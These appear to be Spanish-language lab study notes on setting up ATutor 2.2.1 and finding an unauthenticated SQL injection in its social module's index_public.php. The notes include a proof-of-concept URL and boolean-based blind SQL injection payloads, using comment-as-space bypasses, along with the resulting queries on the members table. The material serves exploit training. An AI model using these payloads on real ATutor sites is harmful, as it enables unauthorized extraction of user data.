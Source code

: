 ### Configuracion Atutor 2.2.1
- Descarga [https://sourceforge.net/projects/atutor/files/atutor_2_2_1/](https://sourceforge.net/projects/atutor/files/atutor_2_2_1/)

- POC: http://192.168.100.28/atutor/mods/_standard/social/index_public.php?q='

- Instalación

```
OS:  Ubuntu 14.04.6 LTS
mysql  atutor:atutor 5.6.16-1~exp1-log
PHP 5.5.9-1ubuntu4

[X] mysql
add (php.ini)
extensión=mysqli
extensión=pdo_mysql
restart apache2

[WARNING]
sudo apt-get install php5-gd
sudo apt-get install php5-curl
restart apache2

CONFIGURACION (FILE UPLOAD)
/var/www/html/atutor/include/classes/pclzip.lib.php
REEMPLAZAR
[gzopen]  -> [gzopen64]
[@gzopen] -> [@gzopen64]
CONF RCE OSWE
sudo chmod 757 ./atutor/mods/
```


----

#### Configurando el entorno MYSQL LOG
```bash
student@atutor:~$ sudo nano /etc/mysql/my.cnf <> /etc/mysql/mariadb.conf.d/50-server.cnf
[mysqld]
general_log_file = /var/log/mysql/mysql.log 
general_log = 1

student@atutor:~$ sudo systemctl restart mysql

sudo tail –f /var/log/mysql/mysql.log
```

Añadir al archivo ```/etc/php5/apache2/php.ini```
```
[...]
display_errors = On 
[...]
```

Reinicar apache
```
student@atutor:~$ sudo systemctl restart apache2
```

----

Todas las páginas que no requieren autenticación contienen la siguiente línea en su código fuente  
```
$_user_location = 'public'; 
```

Enumerar todas las páginas a las que podíamos acceder sin autenticación  
```
grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" -color
```

Después de pasar un tiempo haciéndolo, descubrimos un hallazgo potencialmente interesante. Miremos el código encontrado en ```/var/www/html/ATutor/mods/_standard/social/index_public.php``` 
```
14: $_user_location = 'public'; 15: 
16: define('AT_INCLUDE_PATH', '../../../include/'); 
17: require(AT_INCLUDE_PATH.'vitals.inc.php'); 
18: require_once(AT_SOCIAL_INCLUDE.'constants.inc.php'); 
19: require(AT_SOCIAL_INCLUDE.'friends.inc.php'); 
20: require(AT_SOCIAL_INCLUDE.'classes/PrivacyControl/PrivacyObject.class.php'); 
21: require(AT_SOCIAL_INCLUDE.'classes/PrivacyControl/PrivacyController.class.php'); 
```

 ```
 grep -rnw /var/www/html/ATutor -e "function searchFriends" --color
 ```

## PHP
- `isset`: Si tiene valor devuelve un **true**  
- `intval`: Obtiene el valor entero de una variable  
- `àddslashes`: Devuelve una cadena con barras invertidas añadidas antes de los caracteres que deben escaparse (',",\,NUL)  
- `continue`:se utiliza dentro de las estructuras iterativas para saltar el resto de la iteración actual del bucle y continuar la ejecución en la evaluación de la condición, para luego comenzar la siguiente iteración.

-----
## Exfiltracion de datos
```
> select/**/1;
> AAAA')/**/or/**/(select/**/1)=1%23 
> AAAA')/**/or/**/(select/**/1)=0%23
>  SELECT count(*) FROM AT_members M WHERE (first_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR second_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR last_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR login LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%');\n;
>  SELECT count(*) FROM AT_members M WHERE (first_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR second_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR last_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR login LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%');\n;
```



